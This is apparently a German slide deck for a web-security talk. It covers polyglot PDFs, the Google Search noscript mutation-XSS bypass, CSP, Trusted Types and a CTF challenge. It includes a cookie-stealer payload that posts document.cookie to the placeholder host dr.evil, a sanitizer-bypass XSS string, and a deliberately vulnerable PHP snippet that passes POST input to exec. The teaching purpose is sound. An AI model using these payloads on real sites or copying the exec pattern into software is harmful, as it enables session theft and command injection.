

# Lets talk about files

---

```bash
wget "https://www.alchemistowl.org/pocorgtfo/pocorgtfo03.pdf"
firefox "pocorgtfo03.pdf"
```

{height=400px}

<span style="position: absolute; bottom: 5px; right: 5px; font-size: 20px">Quelle: PoC||GTFO 0x03</span>

---

```bash
cp "pocorgtfo03.pdf" "pocorgtfo03.jpg"
firefox "pocorgtfo03.jpg"
```

. . .

{height=400px}

---

```bash
unzip "pocorgtfo03.pdf" -d "unzipped/"
```

. . .

```bash
  Archive:  pocorgtfo03.pdf
  warning [pocorgtfo03.pdf]: 12224072 extra bytes at
  beginning or within zipfile (attempting to process anyway)
...
  inflating: unzipped/pocorgtfo02.pdf
  inflating: unzipped/pocorgtfo03-encrypt.py
...
```

---

<video src="./figures/intro/watcat-title.mp4" height="400" data-autoplay loop nocontrols>

---

```python
aes = AES.new(...)
output = aes.encrypt(read('pocorgtfo03.pdf'))
```

```bash
python2 "unzipped/pocorgtfo03-encrypt.py"
```

. . . 

{height=320px}

---

<video src="./figures/doggy_wat.mp4" height="300" data-autoplay loop nocontrols>

---


```bash
aplay -r 22050 -f S16_LE "pocorgtfo03.pdf"
```

. . . 

{height=350px}


<div class="notes">
https://www.alchemistowl.org/pocorgtfo/pocorgtfo03.pdf Kapitel 11
</div>


<!-- # "weird machines"

<div class="notes">
http://langsec.org/papers/Bratus.pdf
</div>
-->
---

## Vulnerabilites

Eine **Lücke oder Schwäche** im Design oder der Implementation eines Systems, welche ausgenutzt werden kann um die Sicherheitsrichtlinie des Systems zu verletzen.
\
\
\
<div style="position: absolute; bottom: 5px; right: 5px; font-size: 20px">Quelle: IETF RFC 4949</div>

---

## Exploit

**Ein Exploit nutzt eine Vulnerability um eine bestimmte unerwartete Aktion auszuführen.**

* Vulnerability muss "exploitable" sein
* Exploits nutzen einen Payload um gewünschte Aktionen auszuführen

<!-- * Exploits sind abhänig von der Umgebung wie z.B.
  * CPU Architektur
  * OS (Linux x86, Window...)
  * Browser (Firefox, Chrome...)
-->
---

### Payload

<video src="./figures/bomb_ride.mp4" height="300" data-autoplay loop nocontrols>


---

### AJAX Cookie Stealer als Payload: 
```js
var xmlhttp = new XMLHttpRequest();
xmlhttp.open("POST", "https://dr.evil/sink", true);
xmlhttp.send(JSON.stringify({
  hostname: window.location.host, 
  session: document.cookie
}));
```

---

# Beispiel einer XSS

* Vulterability: XSS
* Payload: z.B. unser Cookie Stealer oder hier `alert("XSS")`


\
\
\
<div style="position: absolute; bottom: 5px; right: 5px; font-size: 20px">Quelle: XSS on Google Search - Sanitizing HTML in The Client? von liveoverflow.com</div>

---

<center>`<div><script title="</div>">`</center>

. . .

{height=300px}

---

<center>`<script><div title="</script>">`</center>

. . .

{height=300px}

---

Aktuelle HTML-Parser sind zu komplex und zu unterschiedlich.

**▶ Serverseitige Sanitisation ist nicht ausreichend!**

---

## XSS Sanitisation mit `<template>`

```js
template = document.createElement("template")
template.innerHTML = ''

// Sanitize DOM structure
template.content.children[0].removeAttribute("onerror")

div = document.createElement("div")
div.innerHTML = template.innerHTML
```

---

```js
template = document.createElement("template")
template.innerHTML = '<noscript><p title="</noscript>' +
    '">'
```

{height=200px}

---

```js
div = document.createElement("div")
div.innerHTML = template.innerHTML
```

. . .


<video onplay="alert('XSS')" src="./figures/xss/hacked.mp4" height="200" data-autoplay loop nocontrols>

---

```js
div = document.createElement("div")
div.innerHTML = '<noscript><p title="</noscript>' +
    '">'
```

{height=200px}

---

<sup>
```
<noscript><p title="</noscript>">
```
</sup>

\vfill

{height=160px}
{height=160px}

**Der DOM Tree ist je nach Kontext unterschiedlich, obwohl der ursprüngliche HTML-Code der gleiche ist!**


---

## Was passiert hier?

<style>
    .reveal blockquote { width: 100% }
</style>

<blockquote>
The noscript element represents **nothing if scripting is enabled**, and represents its **children if scripting is disabled**.
</blockquote>

Da in einem `<template>` tag scripting deaktiviert ist, werden unterschiedliche DOM Trees gebaut.


<span style="position: absolute; bottom: 5px; right: 5px; font-size: 20px">Quelle: https://www.w3.org/TR/html52/semantics-scripting.html#the-noscript-element</span>

---

**Severity: <font color=red>Very High <i class="fas fa-bolt"></i></font>**

. . .

{height=300px}

Vulnerability bestand in der Google Suche für 4 Monate! 

([git commit](https://github.com/google/closure-library/commit/c79ab48e8e962fee57e68739c00e16b9934c0ffa))

---


<span style="position: absolute; bottom: 5px; right: 5px; font-size: 20px">Quelle: Google I/O 2019: Securing Web Apps with Modern Platform Features </span>

---


## `Content-Security-Policy` to the rescue

\
\
CSP is a strong defense-in-depth mechanism against XSS.
\
\
<span style="position: absolute; bottom: 5px; right: 5px; font-size: 20px">Quelle: https://www.w3.org/TR/CSP3/</span>

---

```js
Content-Security-Policy:  default-src 'self'; 
                          img-src *; 
                          script-src scripts.example.com
```
Verbietet inlinen von JavaScript und lässt nur bestimmte Quellen zu.

```html
  // Inlined
<script>alert("XSS")</script>     // Not inlined
```

---

```js
Content-Security-Policy:  script-src 'nonce-r4nd0m'; 
                          img-src *;
```

<div class="strikethrough">
```html

<script>alert("XSS")</script>
```
</div>

. . .
 
```html
<script nonce="nonce-r4nd0m">alert("XSS")</script>
<script nonce="nonce-r4nd0m" 
        src="https://cdn/lib.js"></script>
```

---

### Draft Preview: Trusted Types


Wie sieht eine typische XSS aus?

```js
// e.g. foo = <script>alert("XSS")</script>
const foo = location.hash.slice(1) 
const element = document.querySelector('#foo')
element.innerHTML = foo
```

---

<div class="strikethrough">
```js
element.innerHTML = foo
```
</div>

{height=150px}

```js
element.innerHTML = Policy.createHTML(foo)
```

Idee: <font color="red">String</font> $\rightarrow$ <font color="green">TrustedHTML</font>

---

1. CSP Richtlinie setzten
```js
Content-Security-Policy: trusted-types myPolicy
```

1. Sanitizer angeben
```js
const Policy = TrustedTypes.createPolicy('myPolicy', {
     createHTML(s: string) => myCustomSanitizer(s)
}, false)
```

2. HTML sanitizen
```js
element.innerHTML = Policy.createHTML(foo)
```

---

# Was sind CTFs?

* Capture the Flags sind Puzzle
* Mit dem finden eines Exploits kann man die Flagge erobern
* Anfänger: Ausnutzen eines Buffer-Overflow
* Profi: Finden iner Zero-Day in Safari 🤯
* Trainiert Frusttoleranz

---

#### Grab a beer and ctf!
<div class="safespace">
```php
<?php
if (empty($_POST['hmac']) || empty($_POST['host'])) {
    header('HTTP/1.0 400 Bad Request'); exit;
}
$secret = getenv("SECRET"); 
if (isset($_POST['nonce']))
	$secret = hash_hmac('sha256', $_POST['nonce'], $secret);
$hmac = hash_hmac('sha256', $_POST['host'], $secret);
if ($hmac !== $_POST['hmac']) {
    header('HTTP/1.0 403 Forbidden'); exit;
}
echo exec("host ".$_POST['host']);
?>
```
<span style="font-size: 10px">Quelle: www.securify.nl/en/blog/SFY20180101/spot-the-bug-challenge-2018-warm-up.html</span>

<sub>
<i class="far fa-envelope"></i> [maxammann.org/contact](https://maxammann.org/contact)
<i class="fas fa-code"></i> [github.com/maxammann](https://github.com/maxammann)

<i class="fas fa-industry"></i> [digitalfabrik](https://tuerantuer.de/digitalfabrik/)

</sub>
</div>
 
---

```js
ReactDOM.render(
  <a href="javascript: alert(1)">Click me!</a>,
 document.getElementById('container')
)
```

---

```php
$hmac = hash_hmac('sha256', Array(), "SecretKey");
```

---

XSS Vektoren: https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet

---
